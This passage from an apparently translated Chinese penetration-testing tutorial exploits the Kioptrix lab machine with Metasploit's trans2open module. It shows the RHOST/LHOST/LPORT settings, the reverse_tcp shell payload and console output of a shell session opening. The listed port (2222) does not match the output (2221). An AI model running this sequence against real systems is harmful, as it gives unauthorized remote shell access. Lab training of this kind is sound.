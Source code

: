 Metasploit 中的所有漏洞利用都提供这些信息。如果时间允许，花时间熟悉一些最常用的漏洞利用将对长远非常有益，因为您将能够避免尝试在生产系统上不起作用的漏洞利用。

现在我们需要设置一些可用的选项：

```
msf > set RHOST 192.168.75.14 

```

`RHOST`是远程主机，需要设置为我们的 Kioptrix 机器的 IP 地址。

```
msf > show payloads 

```

![使用 Metasploit 来利用 Kioptrix](img/7744_04_14.jpg)

`show payloads`命令提供了可以与特定漏洞利用一起使用的所有兼容负载的列表。我们将在本例中使用`reverse_tcp`。这种负载类型通常很小且有效，尽管它没有 meterpreter 提供的全部选项。

```
> set payload linux/x86/shell/reverse_tcp 

```

我们还需要设置`LHOST`和`LPORT`。 

```
> set LHOST 192.168.75.12 

```

这是我们的本地主机，监听器将在上面设置。

```
> set LPORT 2222 

```

这是我们想要监听的端口。

现在这件事已经解决，我们可以继续进行利用：

```
> exploit 

```

如果一切顺利，您将收到以下确认和一个类似于我们在本章前手动编译的漏洞利用为我们提供的连接。

```
msf exploit(trans2open) > exploit 

```

```
[*] Started reverse handler on 192.168.75.12:2221
[*] Trying return address 0xbffffdfc...
[*] Trying return address 0xbffffcfc...
[*] Trying return address 0xbffffbfc...
[*] Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.75.14
[*] Command shell session 2 opened (192.168.75.12:2221 -> 192.168.75.14:32802) at 2011-11-16 23:22:06 -0500

```
